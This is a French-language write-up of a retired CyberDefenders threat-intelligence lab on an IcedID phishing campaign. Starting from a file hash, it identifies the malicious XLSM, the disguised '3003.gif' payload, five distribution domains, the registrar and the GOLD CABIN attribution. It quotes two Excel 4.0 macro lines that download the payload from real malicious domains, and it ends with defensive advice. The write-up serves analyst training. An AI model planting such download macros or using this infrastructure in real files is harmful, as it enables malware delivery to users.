





# Day 009 — IcedID Lab

| | |
|---|---|
| Plateforme | [CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/icedid/) |
| Catégorie | Threat Intelligence |
| Difficulté | Easy — Retired |
| Date | 2026-08-17 |
| Outils | VirusTotal, Malpedia, Tria.ge, ANY.RUN |

Lab retiré, donc les réponses sont incluses.

## Contexte

Un groupe cybercriminel mène des campagnes de phishing pour distribuer des payloads, principalement **IcedID** — un trojan bancaire devenu *loader* (il installe d'autres malwares). On dispose d'un seul point de départ : le **hash** d'un échantillon. À partir de ce hash, il faut reconstituer le profil de la menace : le fichier, les IOCs, l'infrastructure et le groupe d'attaquants.

Ce lab n'est pas du forensic : rien à disséquer localement. C'est du **pivot de renseignement** — on interroge des bases publiques qui ont déjà analysé ce malware.

Hash de départ (SHA-256) :

```
d86405130184186154daa4a5132dd1364ab05d1f14034c7f0a0cda690a91116d
```

## Méthode

```
hash  ->  VirusTotal (Details) : nom du fichier            (Q1)
      ->  VirusTotal (Relations) : URLs / GIF distribué    (Q2)
      ->  VirusTotal (Relations) : domaines + registrars   (Q3, Q4)
      ->  Malpedia : threat actor lié à IcedID             (Q5)
      ->  Tria.ge (config extraite) : fonction de download (Q6)
```

## Identifier le fichier

On colle le hash dans VirusTotal. Le verdict est sans appel (43/65 moteurs), fichier de type **XLSX/XLSM** (`nxdomain`, `calls-wmi`).

### Q1 — Nom du fichier associé au hash

Onglet *Details* → section *Names* : VirusTotal liste tous les noms sous lesquels ce fichier a circulé. Au-delà des noms techniques (le hash lui-même), le nom d'origine parlant est `document-1982481273.xlsm`.



**Réponse : `document-1982481273.xlsm`**

## Le payload distribué

### Q2 — Nom du fichier GIF déployé

Onglet *Relations* → *Contacted URLs*. Plusieurs URLs pointent vers un même fichier `.gif` hébergé sur différents domaines. Ce n'est pas une vraie image : IcedID masque son payload de 2ᵉ étape derrière une extension `.gif` anodine.



**Réponse : `3003.gif`**

### Q3 — Combien de domaines pour télécharger le GIF

Le document (macro XLM) tente le même téléchargement de `3003.gif` sur **plusieurs domaines** en cascade — c'est de la redondance : si un domaine tombe, les autres prennent le relais. En comptant les domaines distincts qui servent `/ds/3003.gif` (visibles dans les *Contacted URLs* et confirmés par la config extraite de la sandbox) : **5**.

- `metaflip.io`
- `partsapp.com.br`
- `columbia.aula-web.net`
- `tajushariya.com`
- `agenbolatermurah.com`

**Réponse : `5`**

### Q4 — Registrar DNS majoritaire

Onglet *Relations* → *Contacted Domains* : la colonne *Registrar* indique chez qui chaque domaine a été enregistré. Parmi les cinq domaines de distribution, le registrar qui revient le plus est **NameCheap**.



**Réponse : `NAMECHEAP`**

## Attribuer la menace

### Q5 — Threat actor lié à l'échantillon

On pivote vers [Malpedia](https://malpedia.caad.fkie.fraunhofer.de/details/win.icedid) (base de référence du Fraunhofer). La fiche `win.icedid` liste les acteurs associés à IcedID. Le groupe recherché est **GOLD CABIN**.



**Réponse : `GOLD CABIN`**

> Malpedia liste aussi *Lunar Spider* (l'opérateur d'IcedID lui-même). GOLD CABIN (aussi appelé TA551 / Shathak) est l'acteur qui **distribue** IcedID par phishing — c'est lui qui correspond au « groupe qui mène les campagnes » du scénario.

## Comprendre l'exécution

### Q6 — Fonction utilisée pour récupérer les payloads

Le rapport de sandbox [Tria.ge](https://tria.ge) extrait la config de la macro. Le code XLM 4.0 montre les appels de téléchargement :

```
=CALL("URLMon","URLDownloadToFileA","JCCB",0,"https://metaflip.io/ds/3003.gif","..\ksjvoefv.skd")
=CALL("URLMon","URLDownloadToFileA","JCCB",0,"https://partsapp.com.br/ds/3003.gif","..\ksjvoefv.skd1")
...
```

La fonction Windows appelée pour aller chercher le payload distant est `URLDownloadToFileA` (de la bibliothèque `URLMon`). C'est l'API classique de téléchargement de fichier — d'où la répétition sur les 5 domaines.



**Réponse : `URLDownloadToFileA`** — ATT&CK T1105 (Ingress Tool Transfer).

## Récapitulatif

| Q | Élément | Réponse |
|---|---|---|
| 1 | Nom du fichier | `document-1982481273.xlsm` |
| 2 | Fichier GIF déployé | `3003.gif` |
| 3 | Nombre de domaines | `5` |
| 4 | Registrar majoritaire | `NAMECHEAP` |
| 5 | Threat actor | `GOLD CABIN` |
| 6 | Fonction de download | `URLDownloadToFileA` |

Chaîne d'attaque :

```
phishing  ->  document-1982481273.xlsm (macro XLM 4.0)
   ->  URLDownloadToFileA tente 3003.gif sur 5 domaines (registrar NameCheap)
   ->  le "GIF" est en fait le loader IcedID de 2ᵉ étape
   ->  campagne attribuée à GOLD CABIN (distribution) / Lunar Spider (opérateur)
```

Mapping MITRE ATT&CK : T1566.001 (Spearphishing Attachment), T1204.002 (User Execution), T1105 (Ingress Tool Transfer), T1027 (Masquerading — payload en `.gif`).

## Ce que je retiens

Un lab de threat intelligence, c'est l'inverse du forensic : on ne découvre rien seul, on **corrèle ce que d'autres ont déjà publié**. Tout part d'un hash, et chaque plateforme apporte une pièce — VirusTotal pour l'identité et l'infrastructure, Malpedia pour l'attribution, Tria.ge pour le mécanisme technique. Deux réflexes utiles : se méfier des extensions (`3003.gif` n'est pas une image mais un exécutable masqué), et distinguer l'**opérateur** d'un malware (Lunar Spider) de l'acteur qui le **distribue** (GOLD CABIN) — le scénario parlait bien de campagnes de distribution.

## Côté défense

- Bloquer les macros XLM 4.0 (Excel 4.0) par politique — technique d'exécution encore très utilisée par IcedID.
- Alerter sur les appels `URLDownloadToFileA` depuis un processus Office.
- Surveiller les téléchargements de faux `.gif` (fichier dont le contenu ne correspond pas à l'extension).
- Ajouter les 5 domaines de distribution et le fichier `3003.gif` aux listes de blocage / IOCs.
